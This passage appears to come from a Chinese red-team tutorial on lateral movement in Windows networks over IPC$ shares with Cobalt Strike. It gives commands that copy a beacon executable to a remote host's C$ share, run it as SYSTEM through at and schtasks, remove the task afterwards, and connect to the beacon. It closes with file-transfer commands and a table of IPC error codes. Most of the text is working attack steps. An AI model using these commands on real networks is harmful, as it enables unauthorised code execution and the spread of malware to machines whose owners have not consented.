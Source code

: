 ```bash
shell net use 
```

![截图](b07612b048c47844fd15c32ee3ad59b7.png)

复制shell文件到对方主机：

```bash
shell copy 3.exe \\192.168.3.21\c$
```

利用定时任务执行shell文件：

```bash
# 1、at < Windows2012
shell at \\192.168.3.21 9:04 c:\3.exe

# 2、schtasks >=Windows2012
schtasks /create /s 192.168.3.32 /ru "system" /tn beacon /sc DAILY /tr c:\beacon_x64.exe /F
schtasks /run /s 192.168.3.32 /tn beacon /i #运行beacon任务schtasks /delete /s 192.168.3.21 /tn beacon /f#删除beacon任务
```

![截图](deae488b34177cdb8dc5a0b4e1920812.png)

在CS命令中主动连接

```bash
connect 192.168.3.21 2333
```

![截图](b8d541a97e79e2d227343248da3b0fc2.png)

网络拓扑图大致如下：

![截图](e2142a8af8338ab230a018483bbc9891.png)

补充一些信息：

- ipc建立后的一些命令操作：

```bash
copy \\xx.xx.xx.xx\C$\1.bat1.bat#下载文件
copy 1.bat \\xx.xx.xx.xx\C$#复制文件
net use\\xx.xx.xx.xx\C$\1.bat/del#删除IPC
net view xx.xx.xx.xx # 查看对方共享
```

- 常见的IPC错误代码：

```sass
#建立IPC常见的错误代码
（1）5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限
（2）51：网络问题，Windows 无法找到网络路径
（3）53：找不到网络路径，可能是IP地址错误、目标未开机、目标Lanmanserver服务未启动、有防火墙等问题
（4）67：找不到网络名，本地Lanmanworkstation服务未启动，目标删除ipc$
（5）1219：提供的凭据和已存在的凭据集冲突，说明已建立IPC$，需要先删除
（6）1326：账号密码错误
（7）1792：目标NetLogon服务未启动，连接域控常常会出现此情况
（8）2242：用户密码过期，目标有账号策略，强制定期更改密码
#建立IPC失败的原因
（1）目标系统不是NT或以上的操作系统
（2）对方没有打开IPC$共享
（3）对方未开启139、445端口，或者被防火墙屏蔽
（4）输出命令、账号密码有错误

```
{: file='错误信息'}
